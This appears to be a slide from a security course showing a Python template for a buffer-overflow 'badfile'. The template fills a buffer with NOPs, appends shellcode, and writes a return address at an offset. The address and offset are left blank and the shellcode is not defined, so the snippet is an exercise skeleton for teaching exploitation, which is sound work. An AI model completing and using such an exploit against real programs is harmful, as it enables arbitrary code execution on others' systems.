

# Python Code to Generate the Bad File
# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))
# Put the shellcode at the end
start = 517 - len(shellcode)
content[start:] = shellcode
ret    = ______
offset = _____
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)